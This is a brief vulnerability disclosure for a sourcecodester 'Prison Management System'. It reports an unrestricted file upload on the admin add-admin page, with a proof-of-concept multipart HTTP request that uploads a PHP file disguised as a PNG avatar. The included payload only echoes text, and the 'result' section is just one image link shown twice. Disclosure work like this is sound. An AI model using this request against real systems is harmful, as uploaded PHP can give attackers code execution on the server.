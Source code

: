 1.Prison Management System File Upload

2.Description
The system Client doesn't properly sanitise POST parameter, which result into a File Upload.

3.Vendor Homepage 
https://www.sourcecodester.com/sql/17287/prison-management-system.html

4.Author will@webray.com.cn inc

5.Proof of Concept

(1)The request packet is as follows

POST /prison/Admin/add-admin.php HTTP/1.1

Host: 192.168.67.19

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0

Content-Type: multipart/form-data; boundary=---------------------------122164689239586784784260003750

Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Origin: http://192.168.67.19

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Referer: http://192.168.67.19/prison/Admin/add-admin.php

Sec-GPC: 1

Content-Length: 4225


-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="txtusername"



-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="txtfullname"



-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="txtpassword"



-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="txtphone"



-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="avatar"; filename="a.php"

Content-Type: image/png


<?php echo('hello');?>

-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="btncreate"



-----------------------------122164689239586784784260003750--



(2)result

![image](https://github.com/MaiEmily/map/blob/master/public/image/20190528145810708.png)

![image](https://github.com/MaiEmily/map/blob/master/public/image/20190528145810708.png)

